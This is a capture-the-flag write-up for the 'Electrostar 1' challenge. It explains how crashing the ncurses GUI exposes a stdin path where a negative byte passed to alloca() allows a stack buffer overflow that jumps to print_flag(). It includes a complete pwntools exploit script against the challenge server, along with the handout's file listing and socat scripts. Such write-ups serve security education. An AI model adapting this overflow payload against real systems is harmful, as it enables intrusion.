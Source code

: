 # Electrostar 1

author: itszn

Electrostar(TM) is a new secure modular userspace system which provides security for the upcoming election. We want you to try and find a weakness in the system and slowly work your way in. Our goal is complete compromise!

This challenge is running on Ubuntu 18.04 with the provided libc.

Hint: For the first flag, focus on the `ballot_module.img.sig` and `gui_module.img.sig`

[handout](https://htv2020.s3.amazonaws.com/electrostar.tar.gz)

server: `electrostar.hackthe.vote:9000`

## TL;DR

* Crash the `ncurses` GUI to drop in to the `stdin` interface of `ballot_module`
* the first byte sent will be passed to `alloca()`. Send a negative byte to allow for BOF
* jump to `print_flag()` func inside `ballot_module`.

The exploit code is short enough to be dumped here:

```python
from pwn import *
r = remote('54.144.21.40', 9000)
DOWN = '\x1b\x4f\x42'
r.recvrepeat(timeout=3)
r.sendline(DOWN) # go down and select vote
r.sendline()     # unselect that vote
r.sendline(DOWN) # go down and send the vote

PRINT_FLAG = 0x500741	# grab from gdb
END_OF_WARN = b'\x1b\x5b\x30\x6d' # colour code that is used by output
r.recvuntil(b'falling back to STDIN'+END_OF_WARN+b'\n') # not necessary, but for documentation
# in-between p8() and PRINT_FLAG, one variable needs to be zeroed out [p64(0)] to prevent a for() loop from executing.
r.sendline(p8(256-15) + b'a'*0x18 + p64(0).ljust(0x40) + pack(PRINT_FLAG))
r.interactive()
```

## machine

```
$ tree electrostar
├── connect.sh
├── flag1.txt
├── flag2.txt
├── flag3.exe
├── libc.so.6
├── machine
├── modules
│   ├── ballot_module.img.sig
│   ├── gui_module.img.sig
│   ├── init_module.img.sig
├── README.txt
├── sandbox.h
└── serve.sh
$ cat electrostar/connect.sh
socat tcp:54.144.21.40:9000 FILE:`tty`,rawer,echo=0,icrnl=1,escape=0x03
$ cat electrostar/serve.sh
/usr/bin/socat -d -d TCP-LISTEN:9000,reuseaddr,fork EXEC:"timeout -sKILL 300 ./machine modules/init_module.img.sig",pty,stderr,setsid,sigint,sighup,echo=0,sane,raw,ignbrk=1
```
